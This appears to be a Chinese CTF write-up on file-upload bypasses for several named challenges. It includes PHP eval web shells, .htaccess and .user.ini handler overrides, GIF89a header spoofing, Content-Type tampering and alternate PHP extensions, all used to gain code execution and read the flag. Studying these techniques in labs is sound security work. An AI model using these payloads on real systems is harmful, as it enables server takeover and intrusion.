

# 1.脚本执行
- Flask_FileUpload
进入环境，查看页面源代码

上传的文件需要是png或者jpg，而且会被当做python文件执行
新建python文件
```python
import os
os.system("ls /")
```
后缀改为png，上传，查看源代码

有flag，更改python代码
```python
import os
os.system("cat /flag")
```
修改后缀png上传，查看源代码得到flag

# 2.木马上传
- [MRCTF2020]你传你?呢
进入环境，现上传一个shell.php:
```php
<?php
@eval($_POST['x']);
?>
```
并抓包，发送到repeater后放行，页面回显，说明上传没成功
再repeater里修改Content-Type: image/png，(这里可以多试，一般是png，jpg，jpeg)，点击发送

还是没成功，修改文件后缀上传成功
接下来就是使用php执行这个文件
.htaccess解析漏洞：文件名为.htaccess，内容：
```
<FilesMatch "abc" >
SetHandler application/x-httpd-php
</FilesMatch>
```
代码的意思就是，将当前目录下文件名为abc的文件当成php来解析
上传该文件，抓包修改Content-Type: image/png，放行，上传成功

回到repeater，修改shell.php的文件名为abc，发送，上传成功

蚁剑连接：
点击根目录，向下翻发现flag


- htaccess解析漏洞还可以指定文件后缀:
比如当文件后缀无法通过jpg,png,jpeg和php绕过时，可以上传任意后缀的木马
shell.abc
```php
<script language="php">eval($_POST['x']);</script>
```
再上传.htaccess:
```
AddType application/x-httpd-php .abc
```
这样同目录下.abc后缀的文件就会被当做php解析
另外，这里使用<script></script>是因为有的文件上传会检测<?，使用<script></script>可以绕过

# 3. .user.ini后门
- [SUCTF 2019]CheckIn
类似.htaccess，上传.user.ini:
```
GIF89a
auto_prepend_file=shell.jpg
```
GIF89a文件幻术头绕过
上传shell.jpg:
```
GIF89a?
<script language="php">eval($_POST['x']);</script>
```
蚁剑连接，根目录下获得flag

# 4.php后缀绕过
有时候要求上传jpg，png，jpeg，gif
但是php4、php5、phtml也可以绕过，编写shell.phtml(或者抓包修改后缀):
```
<?php eval($_POST["x"]);?>
```
也能成功上传，且被当做php执行，直接连接蚁剑拿到flag